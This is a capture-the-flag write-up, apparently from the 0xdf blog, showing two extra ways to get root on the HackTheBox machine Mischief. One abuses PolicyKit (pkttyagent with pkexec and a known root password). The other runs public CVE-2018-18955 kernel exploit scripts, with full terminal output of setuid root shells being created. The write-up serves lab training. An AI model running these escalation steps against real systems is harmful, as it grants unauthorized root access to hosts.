 ```yaml
---
title: HTB: Mischief Additional Roots
url: https://0xdf.gitlab.io/2019/01/08/htb-mischief-more-root.html
date: 2019-01-08T19:27:54+00:00
tags: htb-mischief, hackthebox, ctf, cve-2018-18955, policykit, polkit, pkexec, pkttyagent, metasploit, msf-local
---
```


Since publishing my [write-up on Mischief](/2019/01/05/htb-mischief.html) from HackTheBox, I’ve learned of two additional ways to privesc to root once I have access as loki. The first is another method to get around the fact the `su` was blocked on the host using PolicyKit with the root password. The second was to take advantage of a kernel bug that was publicly released in November, well after Mischief went live. I’ll quickly show both those methods.

## PolicyKit

### Background

PolicyKit is software that’s designed to be an alternative to `sudo`, where instead of defining what can be run in a file on each host, it provides an api that can be used by privileged programs to offer services to unprivleged programs. I wasn’t familiar with framework before this example, but it seems that the components come standard on many Linux distros (it is present on my daily Ubuntu 18.04 desktop).

Props to [fjv](https://www.hackthebox.eu/home/users/profile/66373) for pointing this one out on the HTB forums.

### How It Works

In this case, I’ll need two shells on Mischief, both as loki, and the root password from loki’s history file. Getting two shells is easy to do, as I can just ssh in twice, or, better yet, ssh in and run `tmux`.

First, I’ll need to get the pid of the bash process in the first terminal:

```

loki@Mischief:/dev/shm$ echo $$
25923

```

Next, I’ll start `pkttyagent` in the second terminal with the `--process` flag. This flag lets me specify the pid of the process that will be subject to this agent.

```

loki@Mischief:/dev/shm$ pkttyagent --process 25923

```

On doing this, this terminal will just hang and wait to be contacted. Back in the first terminal, I’ll now run `pkexec` to start a process. I’ll pass in `--user root` to say I want to run as root, and `bash -i` as the command I want to run:

```

loki@Mischief:/dev/shm$ pkexec --user root bash -i

```

On doing that, the second window asks for root’s password:

```

==== AUTHENTICATING FOR org.freedesktop.policykit.exec ===
Authentication is needed to run `/bin/bash' as the super user
Authenticating as: root
Password: 

```

When I enter the correct password, it replies:

```

==== AUTHENTICATION COMPLETE ===

```

Back in the first window, I now have a root shell:

```

root@Mischief:~# id         
uid=0(root) gid=0(root) groups=0(root)

```

Here’s the entier thing in action:

![](https://0xdfimages.gitlab.io/img/mischief-pkexec-root.gif)

## CVE-2018-18955

[saket sourav](https://disqus.com/by/disqus_lGROGMGeNJ/) left a comment on the [original Mischief post](/2019/01/05/htb-mischief.html) suggesting there was a kernel vulnerability. With a little researhc, I figured out that he was likely referring to CVE-2018-18955.

To pull this off, I’ll grab the code from here: https://github.com/bcoles/kernel-exploits/tree/master/CVE-2018-18955. There’s also a Metasploit version available:

```

msf > search 18955

Matching Modules
================

   Name                                                       Disclosure Date  Rank   Check  Description
   ----                                                       ---------------  ----   -----  -----------
   exploit/linux/local/nested_namespace_idmap_limit_priv_esc  2018-11-15       great  Yes    Linux Nested User Namespace idmap Limit Local Privilege Escalation

```

But I’ll go without Metasploit. First, I’ll copy the files to target:

```

root@kali:/opt/kernel-exploits/CVE-2018-18955# scp * loki@10.10.10.92:/dev/shm/
loki@10.10.10.92's password: 
exploit.cron.sh                                                                                                                                                                           100% 2303   113.8KB/s   00:00    
exploit.dbus.sh                                                                                                                                                                           100% 3829   192.1KB/s   00:00    
exploit.ldpreload.sh                                                                                                                                                                      100% 2017    95.0KB/s   00:00    
exploit.polkit.sh                                                                                                                                                                         100% 2827   134.8KB/s   00:00    
libsubuid.c                                                                                                                                                                               100%  351    17.2KB/s   00:00    
rootshell.c                                                                                                                                                                               100%  143     7.0KB/s   00:00    
subshell.c                                                                                                                                                                                100% 1604    76.9KB/s   00:00    
subuid_shell.c   

```

Now I’ll just run one of the sh scripts and I get root, in this case the dbus variant:

```

root@Mischief:/dev/shm# ./exploit.dbus.sh 
[*] Compiling...
[*] Creating /usr/share/dbus-1/system-services/org.subuid.Service.service...
[.] starting
[.] setting up namespace
[~] done, namespace sandbox set up
[.] mapping subordinate ids
[.] subuid: 100000
[.] subgid: 100000
[~] done, mapped subordinate ids
[.] executing subshell
[*] Creating /etc/dbus-1/system.d/org.subuid.Service.conf...
[.] starting
[.] setting up namespace
[~] done, namespace sandbox set up
[.] mapping subordinate ids
[.] subuid: 100000
[.] subgid: 100000
[~] done, mapped subordinate ids
[.] executing subshell
[*] Launching dbus service...
Error org.freedesktop.DBus.Error.NoReply: Did not receive a reply. Possible causes include: the remote application did not send a reply, the message bus security policy blocked the reply, the reply timeout expired, or the network connection was broken.
[+] Success:
-rwsrwxr-x 1 root root 8384 Jan  8 20:37 /tmp/sh
[*] Cleaning up...
[*] Launching root shell: /tmp/sh
root@Mischief:/dev/shm# id
uid=0(root) gid=0(root) groups=0(root),1004(loki)
root@Mischief:/dev/shm# cat /root/root.txt 
The flag is not here, get a shell to find it!

```

The different sh scripts just take advantage of different mechanisms to hit the same vulnerability. Each one creates a setuid shell as `/tmp/sh` owned by root. It’s a good idea to clean that file up once you have a root shell.

I was able to get three of the four to work (the cron one makes you wait what feels like forever). If you do try to run more than one, just note that you need to clean up the `/tmp/sh` file before trying the next one, or the script will fail.

`exploit.ldpreload.sh`:

```

loki@Mischief:/dev/shm$ ./exploit.ldpreload.sh 
[*] Compiling...
[*] Adding libsubuid.so to /etc/ld.so.preload...
[.] starting
[.] setting up namespace
[~] done, namespace sandbox set up
[.] mapping subordinate ids
[.] subuid: 165536
[.] subgid: 165536
[~] done, mapped subordinate ids
[.] executing subshell
[+] Success:
-rwsrwxr-x 1 root root 8384 Jan  8 20:41 /tmp/sh
[*] Cleaning up...
[*] Launching root shell: /tmp/sh
root@Mischief:/dev/shm#

```

`exploit.cron.sh`:

```

loki@Mischief:/dev/shm$ ./exploit.cron.sh 
[*] Compiling...
[*] Writing payload to /tmp/payload...
[*] Adding cron job... (wait a minute)
[.] starting
[.] setting up namespace
[~] done, namespace sandbox set up
[.] mapping subordinate ids
[.] subuid: 165536
[.] subgid: 165536
[~] done, mapped subordinate ids
[.] executing subshell
[+] Success:
-rwsrwxr-x 1 root root 8384 Jan  8 20:42 /tmp/sh
[*] Cleaning up...
[*] Launching root shell: /tmp/sh
root@Mischief:/dev/shm# 

```

I’m not sure why the polkit script didn’t work, but I didn’t put much time into it. It is interesting to see PolicyKit utilized for the second time today.
